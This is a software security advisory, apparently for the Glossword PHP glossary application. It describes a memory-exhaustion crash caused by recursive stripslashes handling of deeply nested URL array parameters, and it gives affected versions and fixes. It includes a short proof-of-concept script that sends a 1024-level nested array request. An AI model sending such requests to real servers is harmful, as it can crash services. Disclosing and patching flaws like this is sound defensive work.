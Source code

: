 ### Summary ###
Incorrectly filtered incoming URL parameters when `magic_quotes_gpc` is enabled.

### Description ###
To deal with magic quotes normalization, PHP-developers need to parse each incoming variable with function `stripslashes`. When incoming variable is an array, this array should be parsed as well.

```
<?php
if ( function_exists('get_magic_quotes_gpc') && @get_magic_quotes_gpc() )
{
	function strip_quotes( &$var )
	{
		if (is_array($var))
		{
			array_walk($var, 'strip_quotes');
		}
		else
		{
			$var = stripslashes($var);
		}
	}
	foreach (array('GET','POST','COOKIE') as $v)
	{ 
		/* checking $_GET['variable'] */
		if ( !empty(${"_".$v}) )
		{
			array_walk(${"_".$v}, 'strip_quotes');
		}
	}
}
?>
```

The code above works, but it can be exploited remotely, due to its usage of recursive functions.

```
<?php
/* create string [][][][][]... */
$query = str_repeat("[]", 1024);

/* create url index.php?a[][][][][]...[]=1 */
$url = "http://domain.tld/index.php?a{$query}=1";

/* Open url */
file_get_contents($url);
?>
```

It will take all available memory, followed by PHP crash.

PHP 5.2.2 has a limiter that restricts depth of input arrays.
`max_input_nesting_level = 64`

At the default value it'll prevent creation of input arrays with >64 dimensions.

The maximum nesting level of arrays in Glossword is 10 and it is not required to have PHP 5.2.2 or above (while it is highly recommended).

### Severity ###
Serious.

### Affected versions ###
PHP versions before 5.2.2 with enabled `magic_quotes_gpc`.

Glossword versions before 1.8.7

### Solution ###
Disable `magic_quotes_gpc` in `php.ini`.

Update Glossword up to version 1.8.7. No PHP updates required.

### References ###
  * [PHP|Tek 2007 - Security Pitfall Slides](http://ilia.ws/archives/171-PHPTek-2007-Security-Pitfall-Slides.html)
  * [New INI Configuration Directives](http://www.php.net/manual/en/migration52.newconf.php)